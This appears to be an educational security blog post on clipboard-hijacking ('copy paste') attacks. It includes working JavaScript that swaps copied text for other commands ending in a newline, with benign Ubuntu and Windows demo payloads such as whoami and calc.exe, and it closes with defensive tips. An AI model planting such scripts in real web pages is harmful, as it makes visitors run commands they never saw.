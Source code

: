 ```yaml
---
title: Copy Paste Attack
tags: [copy-paste]
style: border
color: danger
description:  An attacker can embed a small JavaScript code it appears reasonable command but when you copy it you basically copying other malicious code.
---
```


## Introduction
All of us like to copy and paste commands from a random website directly to a terminal, but Can you be hacked by copying things? Yes, you can be hacked.

An attacker can embed a small JavaScript code it appears reasonable command but when you copy it you basically copying other malicious code as we can see in the code below.
```jsx
<script>
document.getElementById('copy').addEventListener('copy', function(e) {
e.clipboardData.setData('text/plain',"malicious code \r\n");
e.preventDefault();});
</script>
```

The attacker will add `\n` or `\r\n` for new line. When this happens in a terminal it will automatically execute the code!

#### This attack is very simple but also very harmful. Here is how it works:

## Ubuntu:

Lets assume we are looking for command to update our ubuntu system and we find the  following website .

![image](../assets/img/copy_paste_attack/1.png)

This website has the following code in the backend.

```jsx
<p>How to update ubuntu: </p>
<code><p id='copy'>sudo apt update</p></code>
<script>
document.getElementById('copy').addEventListener(
'copy', function(e) {
e.clipboardData.setData('text/plain',"whoami; id;for i in `seq 1 5`;do echo YOU HAVE BEEN HACKED;done \n");
e.preventDefault();});
</script>
```

copy the command and paste it into the terminal, here we go..

![image](../assets/img/copy_paste_attack/2.png)

YOU HAVE BEEN HACKED

## Windows:

lest say we looking for cmd command that print the ip address and we find the following website.

![image](../assets/img/copy_paste_attack/3.png)

This website has the following code in the backend.

```jsx
<p> How to get the IP Address in Windows: </p>
<code><p id='copy'>ipconfig</p></code>
<script>
document.getElementById('copy').addEventListener('copy', function(e) {
e.clipboardData.setData('text/plain',"cmd.exe /c calc.exe & for /l %x in (1, 1, 5) do echo YOU HAVE BEEN HACKED \r\n");
e.preventDefault();});
</script>
```

copy the command and paste it into the cmd, here we go..

![image](../assets/img/copy_paste_attack/4.png)

YOU HAVE BEEN HACKED

### HOW TO AVOID THIS?

To avoid this don’t paste any command rather than copy and paste try to type all commands that you want to execute in your system, or paste it in notepad then copy it to your terminal.

Also, many terminals can be configured to avoid new line “\n” to stop this attack.

`Note: This attack will not work in zsh shell such as in Kali Linux but it can work perfectly in sh shell.`

### This Attack tested on:
- Ubuntu
- CentOS 
- Windows 10
- windows 11 